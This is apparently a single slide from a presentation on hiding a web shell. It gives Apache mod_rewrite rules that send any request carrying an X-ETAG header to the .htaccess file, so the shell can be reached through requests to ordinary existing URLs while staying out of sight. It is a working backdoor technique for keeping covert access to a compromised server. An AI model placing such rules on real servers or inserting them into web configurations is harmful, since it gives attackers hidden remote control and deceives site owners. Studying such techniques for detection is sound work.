

# Implementing: Hidden url
Use Mod_Rewrite to redirect supposed url to the .htaccess
RewriteEngine on
RewriteCond %{HTTP:X-ETAG} !^$
RewriteRule .* .htaccess [L]
This allows us to make requests to existing files, and get the shell if the X-ETAG header is set.
18